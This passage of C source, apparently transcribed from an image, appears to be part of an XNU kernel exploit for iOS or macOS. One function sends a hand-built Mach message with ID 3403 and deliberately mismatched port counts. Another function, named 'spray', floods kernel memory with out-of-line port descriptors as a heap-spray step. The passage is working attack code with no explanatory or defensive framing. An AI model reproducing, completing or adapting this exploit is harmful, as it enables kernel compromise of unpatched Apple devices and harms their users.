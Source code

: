 ```c
    InP->init_port_set.address = (void *)(init_port_set);
    InP->init_port_set.count = real;
    InP->init_port_set.disposition = 19;
    InP->init_port_set.deallocate = FALSE;
    InP->init_port_set.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    //InP->init_port_set.copy = 0;
    InP->NDR = NDR_record;
    InP->init_port_setCnt = fake;
    InP->Head.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(19, MACH_MSG_TYPE_MAKE_SEND_ONCE);
    InP->Head.msgh_request_port = mach_task_self();
    InP->Head.msgh_reply_port = mig_get_reply_port();
    InP->Head.msgh_id = 3403;


    assert(mach_msg(&InP->Head, MACH_SEND_MSG|MACH_RCV_MSG|MACH_MSG_OPTION_NONE, (mach_msg_size_t)sizeof(Request), (mach_msg_size_t)sizeof(Reply), InP->Head.msgh_reply_port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL) == 0);

    return KERN_SUCCESS;
}

mach_port_t dummy = MACH_PORT_NULL;
mach_port_t spray(mach_msg_size_t num) {

    if (!dummy) {
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &dummy);
        mach_port_insert_right(mach_task_self(), dummy, dummy, MACH_MSG_TYPE_MAKE_SEND);
    }

    mach_port_t init_port_set[2];
    mach_port_t target;

    for(int i = 0; i < 2; i++) {
        init_port_set[i] = dummy;
    }

    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &target);
    mach_port_insert_right(mach_task_self(), target, target, MACH_MSG_TYPE_MAKE_SEND);

    typedef struct {
        mach_msg_header_t Head;
        mach_msg_body_t msgh_body;
        mach_msg_ool_ports_descriptor_t init_port_set[0];
    } Request;

    char buf[sizeof(Request) + num*sizeof(mach_msg_ool_ports_descriptor_t)];
    Request *InP = (Request*)buf;

    InP->msgh_body.msgh_descriptor_count = num;
    for (int i = 0; i < num; i++) {
        InP->init_port_set[i].address = (void *)(init_port_set);
        InP->init_port_set[i].count = 2;
        InP->init_port_set[i].disposition = 19;
        InP->init_port_set[i].deallocate = FALSE;
        InP->init_port_set[i].type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
        InP->init_port_set[i].copy = 0;
    }
    InP->Head.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(19, 0);
    InP->Head.msgh_request_port = target;
    InP->Head.msgh_reply_port = 0;
    InP->Head.msgh_id = 1337;
```
